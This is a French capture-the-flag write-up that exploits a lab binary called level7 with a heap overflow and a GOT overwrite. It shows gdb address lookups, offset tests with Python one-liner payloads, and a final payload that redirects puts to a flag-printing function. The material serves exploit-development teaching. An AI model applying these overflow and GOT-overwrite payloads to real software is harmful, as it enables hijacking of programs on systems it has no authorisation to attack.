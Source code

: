 ### Adresse de la fonction m
```bash
gdb ./level7
(gdb) info functions
0x080484f4  m
```

### Adresse de la variable globale c
```bash
(gdb) info variables
0x08049960  c
```

## Stratégie d'exploitation : GOT Overwrite

### Principe
1. **Premier strcpy** : Déborder le buffer1 pour écraser le pointeur de la structure 2
2. **Redirection** : Faire pointer la structure 2 vers l'entrée GOT de `puts`
3. **Deuxième strcpy** : Écrire l'adresse de la fonction `m()` dans l'entrée GOT de `puts`
4. **Résultat** : `puts("~~")` exécutera `m()` qui affichera le flag

### Tests de débordement

```bash
# Test avec 16 'A' - fonctionne
./level7 $(python -c "print 'A'*16 + '\x28\x99\x04\x08'") $(python -c "print '\x60\x99\x04\x08'")
~~

# Test avec 18 'A' - segfault
./level7 $(python -c "print 'A'*18 + '\x28\x99\x04\x08'") $(python -c "print '\x60\x99\x04\x08'")
Segmentation fault (core dumped)

# Test avec 20 'A' - segfault
./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\x60\x99\x04\x08'")
Segmentation fault (core dumped)
```

### Offset correct : 20 caractères

Après tests, l'offset correct pour atteindre le pointeur de la deuxième structure est de **20 octets**.

## Construction de l'exploit

### Payload final
```bash
./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```

**Structure du payload :**
- **Premier argument** :
  - `'A'*20` : Padding pour atteindre le pointeur de la structure 2
  - `\x28\x99\x04\x08` : Adresse GOT de `puts` (0x08049928) en little-endian
- **Deuxième argument** :
  - `\xf4\x84\x04\x08` : Adresse de la fonction `m()` (0x080484f4) en little-endian
